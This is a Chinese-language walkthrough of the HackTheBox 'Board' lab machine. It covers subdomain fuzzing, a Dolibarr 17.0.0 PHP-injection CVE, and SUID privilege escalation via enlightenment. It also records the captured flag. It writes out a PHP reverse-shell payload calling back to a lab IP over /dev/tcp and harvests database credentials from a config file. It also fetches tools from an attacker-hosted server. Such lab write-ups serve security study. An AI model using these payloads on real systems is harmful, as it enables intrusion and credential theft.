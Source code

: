 連進網站後先用nmap去看看他開啟哪些服務 有22跟80也就是ssh跟http 應該也就是想辦法獲得ssh帳號密碼進入並提權拿到flag
![image](https://hackmd.io/_uploads/SyfxFob_0.png)

再來使用dirsearch 進行目錄爆破看有沒有感興趣的目錄 但掃出來的權限也都不足
![image](https://hackmd.io/_uploads/rJa5FiW_0.png)

於是去訪問他的網站看有沒有什麼地方可以利用的 但也都沒反應
![image](https://hackmd.io/_uploads/BysucjbOR.png)

滑到最下面有看到她的domain `Board.htb` 把它加入到`/etc/hosts`後一樣沒有反應
![image](https://hackmd.io/_uploads/ByRFcKz_R.png)

![image](https://hackmd.io/_uploads/SJAOqtzuA.png)


所以這時候就要來找看看他的subdomain 我這邊用的是`ffuf`他的[github](https://github.com/ffuf/ffuf)還有[wiki](https://github.com/ffuf/ffuf/wiki) 其他還有像是`wfuzz` `gobuster` 可以使用
```
ffuf -u http://Board.htb -w /usr/share/wordlists/subdomains-top1million-110000.txt -H "Host:FUZZ.Board.htb -c -fw 6243
```
`-u` 是要掃得url `-w`是指定字典檔 `-H`是因為我們要掃subdomain所以指定他 而`FUZZ`部分就是我們要進行爆破的地方 `-fw`是指除了大小為6243之外的都回傳

指定6243是因為發現錯誤回傳的大小都是6243 因此只要不是6243大小的應該就是正確subdomain 這邊變掃出了`crm`這個subdomain
![image](https://hackmd.io/_uploads/ByhCnYzOA.png)

把`crm.Board.htb`也加入`/etc/hosts`裡面
![image](https://hackmd.io/_uploads/HkjHCFzOC.png)

訪問`crm.Board.htb`後得到這個網站 上方有他的版本號 是`Dolibarr 17.0.0`
![image](https://hackmd.io/_uploads/SJtVAFGOC.png)

上網找看看有沒有相關的CVE 發現有`CVE-2023-30253` 可以參考這個文章[原理介紹跟腳本](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253?tab=readme-ov-file)
![image](https://hackmd.io/_uploads/ByZICQ4_0.png)

上網搜尋Dolibarr的預設帳密為 `admin` `admin` 並成功登入
![image](https://hackmd.io/_uploads/SJMeNtcO0.png)

照著剛剛CVE的漏洞嘗試看看 先創個網站
![image](https://hackmd.io/_uploads/HJoK_Kc_0.png)

再弄個頁面
![image](https://hackmd.io/_uploads/HkfhuF9OC.png)

點擊`Edit HTML Source` 進去修改他的HTML 嘗試放php code發現會被擋
![image](https://hackmd.io/_uploads/By6ott5_A.png)

修改大小寫後就發現可以了 並且也可以執行
![image](https://hackmd.io/_uploads/ByERKK5_A.png)
![image](https://hackmd.io/_uploads/HyeG9t5OC.png)

這邊就可以嘗試放個reverse shell`<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.65/1010 0>&1'"); ?>`
![image](https://hackmd.io/_uploads/Syx92K5O0.png)

然後起一個監聽
![image](https://hackmd.io/_uploads/r17BhF9dR.png)

就成功去了
![image](https://hackmd.io/_uploads/SyJOhKcdC.png)

這邊可以加個`python3 -c 'import pty;pty.spawn("/bin/bash")'` 弄個pty出來 會比較好看
![image](https://hackmd.io/_uploads/r1vWCYq_A.png)

在`~/html/crm.board.htb/htdocs/conf`裡的conf.php發現了username跟密碼 : `dolibarrowner` `serverfun2$2023!!`
![image](https://hackmd.io/_uploads/BJua75q_R.png)

ssh登入失敗 在`/home`目錄找到一個叫 `larissa` 用他的名字當username登入看看成功了
![image](https://hackmd.io/_uploads/H1AQ459dC.png)

想使用`sudo -l` 看看有沒有甚麼能提權的方法 但沒有
![image](https://hackmd.io/_uploads/rkDnrz4OC.png)

用[`linpeas`](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)來掃描 用法 先`wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64` 裝到本地

本地架一個`python3 -m http.server 9999` 
然後在目標靶機把她載下來`wget http://10.10.14.94:9999/linpeas.sh` 
![image](https://hackmd.io/_uploads/Hy6hEcc_0.png)

最後chmod完就直接`./linpeas.sh| tee output.txt`執行

在linpeas掃描出來的output.txt裡面可以看到 在SUID這裡 有使用到`enlightenment`的服務 可能有可以提權的問題
![image](https://hackmd.io/_uploads/r1v74GE_0.png)

查看enlightenment版本後發現是0.23.1
![image](https://hackmd.io/_uploads/rk1RbzEOR.png)

上網搜尋後發現`CVE-2022-37706`這個CVE 原因主要是因為setuid的問題導致用戶可以提權 詳細原理可以看[這個](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) 一樣透過剛剛架的服務把下載下來的exploit上傳到主機裡
![image](https://hackmd.io/_uploads/SyfdWzNuA.png)

修改權限後並執行就可以發現變成root權限 這時就可以去flag資料夾拿flag了
`flag:71cf37bc68726deb2d71eed76250aa20`
![image](https://hackmd.io/_uploads/Hknx-fV_R.png)

![image](https://hackmd.io/_uploads/S16e0ucdA.png)

